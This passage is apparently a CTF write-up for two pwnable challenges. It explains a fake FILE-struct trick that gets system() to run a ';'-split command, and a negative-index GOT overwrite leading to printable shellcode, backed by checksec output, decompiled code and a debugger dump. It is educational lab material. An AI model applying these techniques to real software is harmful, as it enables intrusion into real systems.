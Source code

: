 We could craft our fake struct's `flags` field easily bypass the checks, but after successfully called `system`, the argument is `(char *)fp`, which also in the `flags` field. Unfortunately, `/bin` cannot bypass the checks. But what if we leave `flags` as non-null characters and execute the command from behind by using `;` to split commands? Then the final exploit call will be `system("\x??\x??\x??\x??;/bin/ls")`. It can still give use the shell!

[EXP](./seethefile/exp_seethefile.py)

## death_note

Solved 2023/7/7

After checksec, it has RWX segments, which probably will be code injection / shellcoding style challenge. Also, no libc is given, which also means the binary is probably enough for solving the challenge.

> However, I found in my machine, Ubuntu 23.04, not sure if it is the kernel enable some protection for binaries, I cannot get any `RWX` segment except the stack, even I patch it with glibc 2.23. But the searches shows that the shellcoding should be the intended solution (at least heap is `RWX`, not on the stack).

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

After examine the decompiled code, we could see that when inputing the index, it can be negative, which cause arbitrary write pointer overwrite. The next step will be how to write printable ascii shellcode.

```c
idx = read_int();
if ( idx > 10 )
{
  puts("Out of bound !!");
  exit(0);
}
```

I choose to overwrite `GOT` of the `free` function because we can choose what to "free" and it is a free pointer to allow us to enter strings like `/bin/sh`, which will be really helpful. So here is the context when entering shellcode region after we added a note with content `/bin/sh`.

```
─────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x09ce4008  →  "/bin/sh"
$ebx   : 0x0
$ecx   : 0x0
$edx   : 0x0
$esp   : 0xffa6493c  →  0x08048878  →  <del_note+81> add esp, 0x10
$ebp   : 0xffa64968  →  0xffa64978  →  0x00000000
$esi   : 0xf7f3a000  →  0x001b1db0
$edi   : 0xf7f3a000  →  0x001b1db0
$eip   : 0x09ce4018  →  0x00005050 ("PP"?)
$eflags: [zero carry PARITY ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffa6493c│+0x0000: 0x08048878  →  <del_note+81> add esp, 0x10   ← $esp
0xffa64940│+0x0004: 0x09ce4008  →  "/bin/sh"
0xffa64944│+0x0008: 0x00000002
0xffa64948│+0x000c: 0xffa64968  →  0xffa64978  →  0x00000000
```